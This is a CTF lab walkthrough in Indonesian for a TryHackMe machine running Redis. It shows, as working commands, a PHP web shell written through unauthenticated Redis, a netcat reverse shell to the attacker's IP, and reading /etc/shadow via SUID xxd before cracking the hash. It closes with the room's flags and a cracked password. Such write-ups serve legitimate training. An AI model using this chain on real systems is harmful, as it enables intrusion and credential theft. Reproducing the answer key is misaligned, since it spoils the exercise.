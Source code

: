 # CTF - RES
- TryHackMe Challenge: https://tryhackme.com/room/res
- IP Machine: 10.10.191.28

## Port Scanning
- Baris perintah: `nmap -sV -p- -T4 <IP Machine>`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Redis/assets/res%201.JPG)

- Buka halaman web `http://<IP_machine>` di browser

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Redis/assets/res%202.JPG)

## Redis Exploit
- Akses Redis dengan tool redis-cli dengan perintah `redis-cli -h <IP_Machine>`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Redis/assets/res%203.JPG)

- Buat Shell melalui Redis dengan perintah sebagai berikut
```sh
config set dir /var/www/html
config set dbfilename shell.php
set test "<?php system($_GET['cmd']) ?>"
save
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Redis/assets/res%204.JPG)

- Lakukan pengujian shell melalui browser dengan url `http://10.10.191.28/shell.php?cmd=id`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Redis/assets/res%205.JPG)

- Buat Reverse Shell menggunakan netcat dengan perintah sebagai berikut:
```sh
nc -e /bin/bash <IP tun0> 4444
```

- Encode reverse shell menggunakan tool URL Encoder online https://www.urlencoder.org/
```sh
nc%20-e%20%2Fbin%2Fbash%20<IP tun0>%204444
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Redis/assets/res%206.JPG)

- Buka terminal dan jalankan netcat dengan perintah `nc -lnvp <port>`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Redis/assets/res%207.JPG)

- Jalankan Reverse Shell melalui browser dengan url sebagai berikut:
```sh
http://<IP_Machine>/shell.php?cmd=nc%20-e%20%2Fbin%2Fbash%20<IP tun0>%204444
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Redis/assets/res%208.JPG)

- Netcat berhasil terkoneksi

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Redis/assets/res%209.JPG)

- Disini terlihat bahwa terminal belum interaktif. Jadi buat menjadi terminal interaktif dengan perintah sebagai berikut
```sh
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Redis/assets/res%2010.JPG)

## Gain Access
- Cari semua SUID yang dapat dieksekusi dengan perintah dibawah ini
```sh
find / -type f -user root -perm -4000 2>/dev/null
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Redis/assets/res%2011.JPG)

- Disini ditemukan SUID **/usr/bin/xxd**. Kita bisa memanfaatkan script di https://gtfobins.github.io/gtfobins/xxd/#file-read untuk melakukan eskalasi lebih lanjut. Gunakan script dibawah ini untuk membaca file **/etc/shadow** dan copy hash vianka
```sh
LFILE=/etc/shadow
/usr/bin/xxd "$LFILE" | /usr/bin/xxd -r
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Redis/assets/res%2012.JPG)
![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Redis/assets/res%2013.JPG)

- Masukkan hash vianka ke dalam sebuah file dilocal dengan perintah `echo <hash> > <nama_file>`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Redis/assets/res%2014.JPG)

- Crack hash vianka menggunakan tool john the ripper dengan perintah `john <wordlists> <hash_file>`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Redis/assets/res%2015.JPG)

- Switch ke user vianka dengan perintah `su vianka` kemudian masukkan password yang sudah ditemukan

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Redis/assets/res%2016.JPG)

- Pada directory **/home** terdapat directory **vianka**. Pada directory **/home/vianka** terdapat file **user.txt** sebagai user flag. Buka file **user.txt**

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Redis/assets/res%2017.JPG)

## Pertanyaan dan Jawaban:

- **Pertanyaan:** Scan the machine, how many ports are open?
```sh
2
```

- **Pertanyaan:** What's is the database management system installed on the server?
```sh
redis
```

- **Pertanyaan:** What port is the database management system running on?
```sh
6379
```

- **Pertanyaan:** What's is the version of management system installed on the server?
```sh
6.0.7
```

- **Pertanyaan:** Compromise the machine and locate user.txt
```sh
thm{red1s_rce_w1thout_credent1als}
```

- **Pertanyaan:** What is the local user account password?
```sh
beautiful1
```

- **Pertanyaan:** Escalate privileges and obtain root.txt
```sh
thm{xxd_pr1v_escalat1on}
```